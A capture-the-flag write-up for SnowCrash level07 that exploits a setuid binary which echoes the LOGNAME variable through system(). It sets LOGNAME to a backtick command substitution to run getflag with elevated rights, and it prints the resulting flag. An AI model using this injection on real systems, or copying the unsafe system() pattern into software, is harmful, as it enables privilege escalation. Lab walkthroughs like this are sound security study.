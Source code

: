 # Step 1
A binary file named `level07` is present in the home directory of `level07`.
```bash
level07@SnowCrash:~$ ./level07
level07
```
this print `level07` and exits.

# Step 2
After some research, we can see that the binary print the content of the environment variable `LOGNAME`.

```bash
strings level07
```

shows
```console
asprintf
getenv
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh 
UWVS
[^_]
LOGNAME
/bin/echo %s 
```



```bash
level07@SnowCrash:~$ export LOGNAME="test"
level07@SnowCrash:~$ ./level07
test
```

So we want to execute the command `getflag` by setting the `LOGNAME` environment variable to `getflag`.

To do this, we have to make a command substitution in the export command.

> see: <https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html>


```bash
export LOGNAME=\`getflag\`
./level07
```

### Result

flag07: `fiumuikeil55xe9cu4dood66h`

No password needed for `flag07` user.

